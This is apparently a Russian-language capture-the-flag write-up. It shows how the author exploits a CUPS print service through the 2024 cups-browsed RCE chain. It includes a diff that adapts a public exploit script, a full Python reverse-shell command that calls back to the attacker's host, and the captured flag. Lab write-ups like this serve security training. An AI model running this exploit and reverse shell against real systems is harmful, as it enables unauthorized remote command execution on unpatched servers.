

# Сервис печати 1

Дан сервис `cups` (нашли через nmap порт 631), в котором в прошлом году была открыта цепочка уязвимостей, позволяющая получить RCE. Суть атаки описана в [этой статье](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/) от нашедшего эти уязвимости

Погуглив, находим почти готовый сплойт [на гитхабе](https://github.com/0xCZR1/PoC-Cups-RCE-CVE-exploit-chain). В нём нужно заменить порт, на котором будет поднят ipp сервер для эксплуатации, на один из разрешенного в сети диапазона (41100 - 41300), и ещё поменять название принтера, чтобы не конфликтовало с другими принтерами:

```diff
diff --git a/cups-rce.py b/cups-rce.py
index eba3a65..630139e 100644
--- a/cups-rce.py
+++ b/cups-rce.py
@@ -73,9 +73,9 @@ def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
     printer_type = 2
     printer_state = '3'  # Idle state
     printer_uri = f'http://{ipp_server_host}:{ipp_server_port}/printers/EVILCUPS'
-    printer_location = '"Pwned Location"'
-    printer_info = '"Pwned Printer"'
-    printer_model = '"HP LaserJet 1020"'
+    printer_location = '"meow"'
+    printer_info = '"cute printer"'
+    printer_model = '"HP LaserJet 1337"'
     packet = f"{printer_type:x} {printer_state} {printer_uri} {printer_location} {printer_info} {printer_model} \n"
     print(f"Packet content:\n{packet}")
 
@@ -103,7 +103,7 @@ if __name__ == "__main__":
         
     # Assign arguments to variables
     SERVER_HOST = sys.argv[1]
-    SERVER_PORT = 12349
+    SERVER_PORT = 41155
     TARGET_HOST = sys.argv[2]
     COMMAND = sys.argv[3]  # Command for the PrinterPwned class
```

Далее, запускаем сплойт, передав в команду реверс-шелл (предварительно поняли, что в контейнере есть python):
```bash
python3 cups-rce.py 10.5.5.164 10.10.1.145 "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.5.5.164\",41101));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'"
```

Далее, запускаем печать в веб панели:


Получаем реверс шелл, читаем флаг `cat user_flag.txt`

**Флаг:** `nto{n0t_my_cup5_0f_t34}`